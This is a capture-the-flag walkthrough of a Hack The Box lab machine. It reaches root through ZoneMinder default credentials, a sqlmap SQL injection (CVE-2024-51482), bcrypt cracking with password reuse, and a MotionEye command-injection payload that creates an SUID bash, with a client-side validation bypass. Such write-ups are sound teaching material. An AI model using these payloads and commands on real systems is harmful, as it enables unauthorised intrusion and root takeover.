<h2 class="highlight_h2">Attack Path</h2>

<div class="path">
    <div class="node">Recon (nmap)</div>
    <div class="node">ZoneMinder on port 80. Logging with default creds</div>
    <div class="node">CVE-2024-51482. Boolean-Based SQLi in ZoneMinder</div>
    <div class="node">Extracting and cracking mark's bcrypt hash</div>
    <div class="node">Reusing the password for SSH login. Shell as mark</div>
    <div class="node">Discovering MotionEye running on the system</div>
    <div class="node root">Privilege Escalation via CVE-2025-60787</div>
</div>


## ~$ Recon

```bash
❯ nmap -sV -sC -p- --min-rate=5000 $IP -oN nmap-scan
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  256 76:1d:73:98:fa:05:f7:0b:04:c2:3b:c4:7d:e6:db:4a (ECDSA)
80/tcp open  http    Apache httpd 2.4.58
|_http-title: Did not follow redirect to http://cctv.htb/
```

As the output reveals, there are two ports open:

-> <span class="highlight">ssh</span> (22/tcp)

-> <span class="highlight">http</span> (80/tcp)

The web application redirects to <span class="highlight_link">cctv.htb</span>. Add this record to <span class="highlight_filename">/etc/hosts</span>:

```bash
❯ echo "\n$IP\tcctv.htb" | sudo tee -a /etc/hosts
```

<h2 class="highlight_h2">~ Web</h2>
The website's homepage:


The <span class="highlight_link">Staff Login</span> button located in the top right corner leads us to the login page:


<span class="highlight_info">[+] ZoneMinder Software</span>

<span class="highlight_link">[ZoneMinder](https://github.com/ZoneMinder/zoneminder)</span> is an open-source software that provides a video surveillance system for Linux. It is used for video recording, motion detection, live viewing, and more. This software  turns a computer connected to the cameras into a surveillance system (CCTV, NVR).

Documentation located at <span class="highlight_link">[this link](https://zoneminder.readthedocs.io/en/stable/userguide/gettingstarted.html#enabling-authentication)</span> states that the default credentials for the initial login are -> <span class="highlight">admin : admin</span>


<span class="highlight_info">[!] Login default creds have not been changed</span>

The login attempt using these credentials was successful.

The dashboard revealed ZoneMinder's version:




<span class="highlight_info">[!] ZoneMinder version -> 1.37.63 [!]</span>

ZoneMinder v.1.37.63 is vulnerable to <span class="highlight_cve">CVE-2024-51482</span>.


## ~$ Foothold

<h3 class="highlight_h2">~ [CVE-2024-51482] Boolean-Based SQLi in ZoneMinder</h3>

<span class="highlight_link">-> [Github Adversary](https://github.com/ZoneMinder/zoneminder/security/advisories/GHSA-qm8h-3xvf-m7j3)</span>

The vulnerability is in a function in `web/ajax/event.php` -> one user-controllable parameter called `tid` is put directly into the SQL query allowing us to perform an SQLi attack.

Exploiting Boolean-based SQLi is a very time-consuming process. Because of this, I searched for ZoneMinder's database structure.

The default database name is `zm`.

Additionally, the database structure can be found [here](https://github.com/ZoneMinder/zoneminder/blob/1.37.63/db/zm_create.sql.in).

We are interested in the [Users table](https://github.com/ZoneMinder/zoneminder/blob/1.37.63/db/zm_create.sql.in#L779) that has the following structure (I've included a short snippet of it):

```sql
-- Table structure for table `Users`
--

DROP TABLE IF EXISTS `Users`;
CREATE TABLE `Users` (
  `Id` int(10) unsigned NOT NULL auto_increment,
  `Username` varchar(64) character set latin1 collate latin1_bin NOT NULL default '',
  `Password` varchar(64) NOT NULL default '',
  -- ......
  UNIQUE KEY `UC_Username` (`Username`)
) ENGINE=@ZM_MYSQL_ENGINE@;
```

We are already logged in as the admin user. Therefore, it is possible to view all users via this URL -> <span class="highlight_link">http://cctv.htb/zm/index.php?view=options&tab=users</span>


<span class="highlight_info">[+] users -> mark and superadmin</span>

First, I tried to retrieve the mark's password using  the <span class="highlight_tools">sqlmap</span> tool: 

```bash
❯ sqlmap -u 'http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1' \
--cookie="ZMSESSID=cggn7rb4gs6651gqset35vnejr" -p tid --dbms=mysql --flush-session \
-D zm -T Users --batch -C 'Password' --where="Username='mark'" --dump
```

As a result, the hash was extracted:



<span class="highlight_info">[+] mark's hash -> $2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG.</span>

### > Crack the hash with hashcat

The extracted hash is a bcrypt hash with a mode number of 3200:


Run this command:
```bash
❯ hashcat -m 3200 -a 0 mark.hash /usr/share/wordlists/rockyou.txt
```


<span class="highlight_info">[+] mark : opensesame</span>


We can assume that the target host has a system user <span class="highlight_username">mark</span> that may reuse this password for system access.

```bash
❯ ssh mark@cctv.htb
```

<span class="highlight">"Welcome to Ubuntu" !</span>



However, the <span class="highlight_filename">user.txt</span> file awaits us elsewhere )

Mark's home directory contains nothing interesting:
```bash
mark@cctv:~$ ls -la
total 36
drwxr-x--- 5 mark mark 4096 Mar  2 09:49 .
drwxr-xr-x 4 root root 4096 Mar  2 09:49 ..
lrwxrwxrwx 1 root root    9 Feb 13 10:01 .bash_history -> /dev/null
-rw-r--r-- 1 mark mark  220 Mar 31  2024 .bash_logout
-rw-r--r-- 1 mark mark 3771 Mar 31  2024 .bashrc
drwx------ 2 mark mark 4096 Mar  2 09:49 .cache
drwx------ 3 mark mark 4096 Mar  2 09:49 .gnupg
-rw-r--r-- 1 mark mark  807 Mar 31  2024 .profile
drwx------ 2 mark mark 4096 Mar  2 09:49 .ssh
-rw-rw-r-- 1 mark mark  165 Sep 14  2025 .wget-hsts
```

The <span class="highlight_username">sa_mark</span> user exists on the system: 
```bash
mark@cctv:~$ ls -la /home
total 16
drwxr-xr-x  4 root    root    4096 Mar  2 09:49 .
drwxr-xr-x 23 root    root    4096 Mar  2 09:49 ..
drwxr-x---  5 mark    mark    4096 Mar  2 09:49 mark
drwxr-x---  4 sa_mark sa_mark 4096 Mar  2 09:49 sa_mark
```


## ~$ Privilige Escalation 

Check the system for any open ports listening for connections locally:
```bash
mark@cctv:~$ ss -tulpn | grep 127.0.0.1
```
There are a multitude of local listeners:
```bash
tcp   LISTEN 0      4096       127.0.0.1:9081       0.0.0.0:*          
tcp   LISTEN 0      128        127.0.0.1:8765       0.0.0.0:*          
tcp   LISTEN 0      4096       127.0.0.1:8888       0.0.0.0:*          
tcp   LISTEN 0      70         127.0.0.1:33060      0.0.0.0:*          
tcp   LISTEN 0      4096       127.0.0.1:8554       0.0.0.0:*          
tcp   LISTEN 0      4096       127.0.0.1:7999       0.0.0.0:*          
tcp   LISTEN 0      4096       127.0.0.1:1935       0.0.0.0:*          
tcp   LISTEN 0      151        127.0.0.1:3306       0.0.0.0:* 
```

The <span class="highlight_filename">/tmp</span> directory contains a folder named `MotionEye`.

I decided to check systemd services (<span class="highlight_filename">/etc/systemd/system/</span>) for anything unusual and found this one:
```bash
mark@cctv:/etc/systemd/system$ cat motioneye.service
[Unit]
Description=motionEye Server
After=network.target local-fs.target remote-fs.target

[Service]
User=root
RuntimeDirectory=motioneye
LogsDirectory=motioneye
StateDirectory=motioneye
ExecStart=/usr/local/bin/meyectl startserver -c /etc/motioneye/motioneye.conf
Restart=on-abort

[Install]
WantedBy=multi-user.target
```

The <span class="highlight_link">[MotionEye](https://github.com/motioneye-project/motioneye)</span> service runs on port 8765 in the root context.


MotionEye is a video surveillance program with motion detection.

Look at its version: 


<span class="highlight_info">[!] MotionEye 0.43.1b4</span>

<h3 class="highlight_h2">~ [CVE-2025-60787] Command Injection in MotionEye</h3>

<span class="highlight_link">[ -> Github Advisory](https://github.com/motioneye-project/motioneye/security/advisories/GHSA-j945-qm58-4gjx)</span>


This vulnerability allows us to execute arbitrary code on the target system via improperly sanitized fields in the Web UI that are passed directly to the configuration file.

The fields <span class="highlight">image_file_name</span> and <span class="highlight">movie_filename</span> are accepted by MotionEye and are written directly into the camera's configuration file (e.g. <span class="highlight_filename">/etc/motioneye/camera-1.conf</span>). 

When MotionEye restarts, the Motion binary reads this config file and treats these fields like shell expandable -> therefore, symbols like backticks and `$()` are interpreted like shell commands. 

Perform port forwarding via ssh to access the web interface on the attacker's machine:

```bash
❯ ssh -L 8765:127.0.0.1:8765 mark@cctv.htb
```

The web interface meets us with login page:


We can find valid creds in the configuration file called <span class="highlight_filename">/etc/motioneye/motion.conf</span> :  

```bash
mark@cctv:/etc/motioneye$ cat motion.conf 
# @admin_username admin
# @normal_username user
# @admin_password 989c5a8ee87a0e9521ec81a79187d162109282f0
# @lang en
# @enabled on
# @normal_password 


setup_mode off
webcontrol_port 7999
webcontrol_interface 1
webcontrol_localhost on
webcontrol_parms 2

camera camera-1.conf
```

<span class="highlight_info">[+] MotionEye Creds -> admin : 989c5a8ee87a0e9521ec81a79187d162109282f0</span>

Exploitation:

<span class="highlight">1</span>: Log in using creds from the <span class="highlight_filename">motion.conf</span> file.

<span class="highlight">2</span>: Go to the `Camera Settings` -> `Still Images`.

<span class="highlight">3</span>: Find the `Image File Name` field and insert this payload to create an SUID copy of the bash binary in the tmp directory:

```bash
$(cp /bin/bash /tmp/root.bash && chmod +s /tmp/root.bash).%Y-%m-%d-%H-%M-%S
```

<span class="highlight">4</span>: Set `Capture mode` to `Interval Snapshots` and `Interval` to 10:

<span class="highlight">5</span>: Bypass Client-Side validation

There is a client-side validation that prevents us from entering this payload. It can be bypassed by running the following javascript code in the DevTools' console:
```js
configUiValid = function() { return true; };
```



Save changes, go back to the shell, and run the created SUID binary:

```bash
mark@cctv:/tmp$ ./root.bash -p
```



<span class="highlight_info">[+] /root/root.txt</span>

<span class="highlight_info">[+] /home/sa_mark/user.txt</span>

